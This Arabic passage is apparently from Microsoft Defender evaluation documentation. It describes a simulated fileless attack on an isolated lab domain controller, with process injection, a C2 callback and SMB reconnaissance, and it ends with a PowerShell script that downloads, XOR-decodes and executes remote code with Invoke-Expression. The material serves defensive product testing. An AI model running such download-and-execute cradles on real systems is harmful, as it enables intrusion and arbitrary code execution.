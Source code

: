 إذا كنت تستخدم مجموعات المستأجر والأجهزة، فتنشئ مجموعة أجهزة مخصصة لجهاز الاختبار وتدفعها إلى المستوى الأعلى.

أحد البدائل هو استضافة وحدة تحكم مجال AD DS وجهاز الاختبار كأجهزة ظاهرية في خدمات البنية الأساسية ل Microsoft Azure. يمكنك استخدام الإرشادات في [المرحلة 1 من دليل مختبر اختبار المؤسسة المحاكي](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet)، ولكن تخطي إنشاء الجهاز الظاهري APP1.

فيما يلي النتيجة.

:::image type="content" source="../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-endpoints-tlg.png" alt-text="بيئة التقييم باستخدام دليل مختبر اختبار المؤسسة المحاكي" lightbox="../../media/eval-defender-investigate-respond/eval-defender-eval-investigate-respond-endpoints-tlg.png":::

ستقوم بمحاكاة هجوم متطور يستفيد من التقنيات المتقدمة للاختراق من الكشف. يقوم الهجوم بتعداد جلسات Server Message Block (SMB) المفتوحة على وحدات التحكم بالمجال ويسترد عناوين IP الأخيرة لأجهزة المستخدمين. عادة لا تتضمن هذه الفئة من الهجمات الملفات التي تم إسقاطها على جهاز المجني عليه وتحدث فقط في الذاكرة. إنهم "يعيشون خارج الأرض" باستخدام النظام الحالي والأدوات الإدارية وإدخال التعليمات البرمجية الخاصة بهم في عمليات النظام لإخفاء تنفيذها. يسمح لهم هذا السلوك بالكشف والثبات على الجهاز.

في هذه المحاكاة، يبدأ نموذج السيناريو الخاص بنا مع برنامج نصي PowerShell. في العالم الحقيقي، قد يتم خداع المستخدم لتشغيل برنامج نصي أو قد يتم تشغيل البرنامج النصي من اتصال عن بعد بجهاز كمبيوتر آخر من جهاز مصاب مسبقا، ما يشير إلى أن المهاجم يحاول الانتقال لاحقا في الشبكة. يمكن أن يكون الكشف عن هذه البرامج النصية صعبا لأن المسؤولين غالبا ما يقومون بتشغيل البرامج النصية عن بعد لتنفيذ أنشطة إدارية مختلفة.

:::image type="content" source="../../media/mtp/mtpdiydiagram.png" alt-text="هجوم Fileless PowerShell مع حقن العملية وهجوم إعادة بناء SMB" lightbox="../../media/mtp/mtpdiydiagram.png":::

أثناء المحاكاة، يدخل الهجوم shellcode في عملية تبدو وكأنها بريء. يتطلب السيناريو استخدام notepad.exe. اخترنا هذه العملية للمحاكاة، ولكن من المرجح أن يستهدف المهاجمون عملية نظام طويلة الأمد، مثل svchost.exe. ثم ينتقل shellcode للاتصال بخادم الأوامر والتحكم للمهاجم (C2) لتلقي إرشادات حول كيفية المتابعة. يحاول البرنامج النصي تنفيذ استعلامات الاستطلاع مقابل وحدة التحكم بالمجال (DC). يسمح الاستطلاع للمهاجم بالحصول على معلومات حول معلومات تسجيل دخول المستخدم الأخيرة. بمجرد حصول المهاجمين على هذه المعلومات، يمكنهم الانتقال لاحقا في الشبكة للوصول إلى حساب حساس معين

> [!IMPORTANT]
> للحصول على أفضل النتائج، اتبع تعليمات محاكاة الهجوم عن كثب قدر الإمكان.

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a>تشغيل محاكاة هجوم وحدة تحكم مجال AD DS المعزولة

لتشغيل محاكاة سيناريو الهجوم:

1. تأكد من أن بيئة الإصدار التجريبي تتضمن وحدة تحكم مجال AD DS المعزولة وجهاز Windows.

2. سجل الدخول إلى جهاز الاختبار باستخدام حساب مستخدم الاختبار.

3. افتح نافذة Windows PowerShell على جهاز الاختبار.

4. انسخ البرنامج النصي للمحاكاة التالي:

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```
